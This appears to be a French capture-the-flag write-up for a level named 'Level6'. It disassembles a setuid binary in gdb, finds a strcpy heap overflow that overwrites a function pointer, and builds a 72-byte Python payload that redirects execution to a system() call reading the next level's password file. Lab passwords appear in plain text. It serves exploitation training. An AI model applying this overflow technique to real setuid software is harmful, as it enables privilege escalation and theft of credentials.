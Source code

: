 # Level6

> login:password -> *`level6:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`*
```
:~$ su level6
Password:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
---

```
:~$ pwd
/home/user/level6
```

```
:~$ ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level6` :

```
:~$ ./level6
Segmentation fault (core dumped)

:~$ ./level6 test
Nope
```

Sans paramètre le binaire segfault.
Avec un ou plusieurs paramètres, il affiche un simple `Nope`

```
:~$ gdb level6
...

(gdb) disas main
Dump of assembler code for function main:
   (...)
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   (...)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   (...)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
```

Le main appel deux fonctions `malloc()`, la première (+16) de `0x40` (64) et une deuxième (+32) de `0x4` (4). Enfin il également appeler une fonction `strcpy()` (+73).

On remarque également qu'il va appeler une fonction pointeur (+41) à l'adresse `$0x8048468`

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x08048340  strcpy@plt
(...)
0x08048350  malloc@plt
(...)
0x08048360  puts@plt
(...)
0x08048370  system@plt
(...)
0x08048454  n
0x08048468  m
0x0804847c  main
(...)

(gdb) disas m
Dump of assembler code for function m:
   (...)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   (...)
   0x0804845a <+6>:  movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
```

On decouvre deux fonctions qui ne sont pas exploitees:
- `m()`: appel une fonction `puts()`
- `n()`: appel la fonction `system()`

Si on check la valeur de `$0x80485b0` (+6) dans `n()`, on peux en comprendre comment l'utiliser.

```
(gdb) x/s 0x80485b0
0x80485b0:	 "/bin/cat /home/user/level7/.pass"
```

```
(gdb) run AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZzAaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz
Starting program: /home/user/level6/level6 AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZzAaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz

Program received signal SIGSEGV, Segmentation fault.
0x67476646 in ?? ()
(gdb) info register eip
eip            0x67476646	0x67476646
(gdb) 
```

>>>>
>>>> CALCUL DE L'OFFSET
>>>>


L'offset pour son exploit est donc 72.

On va donc envoyer en argument de notre binaire *72 bytes* + l'adresse la fonction (0x08048454) `n()` afin d'appeler la fonction `system()`

```
:~$ python -c 'print "a" * 72 + "\x54\x84\x04\x08"' > /tmp/level6

:~$ ./level6 $(cat /tmp/level6)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

